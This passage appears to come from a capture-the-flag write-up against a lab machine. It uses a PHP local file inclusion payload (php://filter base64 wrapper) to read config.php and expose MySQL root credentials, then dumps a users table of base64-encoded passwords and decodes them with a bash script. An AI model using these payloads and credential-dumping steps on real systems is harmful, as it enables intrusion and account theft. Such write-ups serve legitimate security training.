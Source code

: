 The **config.php** file contains the credentials to log into MySQL.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=config" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee config.php
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

### MySQL Enumeration

Listing the tables from the database Users.

```console
root@kali:~$ mysql -h 192.168.179.176 -u root -D Users -p
Enter password: 
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.003 sec)
```

Retrieving the records from the table users.

```console
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.004 sec)
```

We save it to a file.

```console
root@kali:~$ cat mysql.users 
kent:Sld6WHVCSkpOeQ== 
mike:U0lmZHNURW42SQ== 
kane:aVN2NVltMkdSbw==
```

I developed a bash script to decode the passwords in base64.

```console
#!/bin/bash

for x in $(cat mysql.users); do
        db64=$(echo $x | cut -d ':' -f 2 | base64 -d)
        echo -e "$x  (\e[1;33m$db64\e[0m)"
done
```
